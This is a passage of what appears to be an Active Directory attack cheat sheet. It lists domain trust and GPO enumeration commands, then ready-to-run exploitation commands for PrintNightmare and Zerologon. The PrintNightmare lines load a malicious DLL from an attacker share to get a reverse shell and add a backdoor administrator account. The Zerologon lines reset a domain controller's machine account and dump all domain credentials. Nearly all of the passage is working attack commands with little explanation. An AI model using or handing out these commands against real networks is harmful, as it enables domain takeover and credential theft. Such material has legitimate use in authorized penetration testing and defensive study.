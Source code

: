 ### Trust Relationships

```bash
# Linux
nltest /domain_trusts

# Windows
Get-DomainTrust
```

### GPO Enumeration

```powershell
# PowerView
Get-DomainGPO
Get-DomainGPOLocalGroup
```

---

## 💥 Advanced Exploitation Techniques

### 🖨️ PrintNightmare (CVE-2021-1675/34527)

#### Linux:

```bash
# Impacket
rpcdump.py @DC_IP | grep -i spooler
python3 CVE-2021-1675.py domain.com/lowpriv:password@DC_IP '\\attacker_ip\share\evil.dll'

# CubeO1d Implementation
python3 CVE-2021-1675.py domain.com/user:pass@target '\\\attacker\share\rev.dll'
```

#### Windows:

```powershell
# PowerShell Implementation
Import-Module .\CVE-2021-1675.ps1
Invoke-Nightmare -DriverName "PrintMe" -NewUser "adm1n" -NewPassword "P@ssw0rd123"

# C# Implementation
.\SharpPrintNightmare.exe C:\Windows\System32\kernelbase.dll \\attacker\share\evil.dll
```

### ⚡ Zerologon (CVE-2020-1472)

#### Linux:

```bash
# Test for vulnerability
python3 zerologon_tester.py DC_NAME DC_IP

# Exploit
python3 cve-2020-1472-exploit.py DC_NAME DC_IP
secretsdump.py -just-dc -no-pass DC_NAME\$@DC_IP

# Restore machine account
python3 restorepassword.py domain.com/DC_NAME@DC_NAME -target-ip DC_IP -hexpass ORIGINAL_HEX_PASSWORD
```
